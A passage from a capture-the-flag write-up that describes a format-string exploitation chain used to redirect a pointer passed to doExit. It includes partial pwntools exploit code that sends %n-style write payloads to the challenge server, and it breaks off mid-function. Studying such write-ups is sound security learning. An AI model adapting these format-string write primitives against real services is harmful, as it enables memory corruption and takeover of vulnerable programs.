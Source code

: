## Step 5 - Swap out pointer passed to `doExit`

Since we can keep track of the `RSP` value for each iteration we can predict the value of the next iteration.

The goal at this point is to overwrite the local variable passed to `doExit` after doing the `printf`, we want to change that to point to the global variable that we modified in the previous step.

The address loaded to the local variable has the address `0x564FA9ECA088` while the variable we used to write a new pointer has the address `0x564FA9ECA0C8`. This differs only in the lowest byte meaning that is the only change we need to make.

So we do 2 steps:
1. Seed a pointer to `RSP-0x60` by writing that pointer with 5 prepended padding bytes.
2. Modify the lowest byte of that address to change from the modified exit global variable, to the global variable originally pointing to the input function which was rewritten to point to the stack linked list. This is done by writing `%200d%20$hhn`

## Step 6 - Read the flag

## Exploit code

```python
from pwn import *

context.log_level = "warning"

#p = process("./chal")
p = remote("zoom.hack.fe-ctf.dk", 1337)
try:
    p.recvuntil("?".encode("ascii"))
    p.recvuntil("> ".encode("ascii"))
    p.sendline("%6$96p%6$hhn".encode("ascii"))
    base = int(p.recvline().decode("ascii").strip(), base=0)

    current_rsp = 0

    def read(index):
        global current_rsp
        current_rsp -= 96
        p.recvuntil("> ".encode("ascii"))
        p.sendline("%{}$p".format(index).encode("ascii"))
        return int(p.recvline().decode("ascii").strip(), base=0)

    def seed(addr):
        global current_rsp
        p.recvuntil("> ".encode("ascii"))
        p.send(b"     " + pack(addr, 64))
        p.recvline()
        current_rsp -= 96
        return current_rsp + 16
    
    def write16(value, offset):
        global current_rsp
        if value <= 0:
            b = f"%{offset}$hn".encode("ascii").ljust(13, b"\0")
        else:
            b = f"%{value & 0xFFFF}d%{offset}$hn".encode("ascii").ljust(13, b"\0")
        p.recvuntil("> ".encode("ascii"))
        p.send(b)
        p.recvline()
        current_rsp -= 96
    
    def write8(value, offset):
```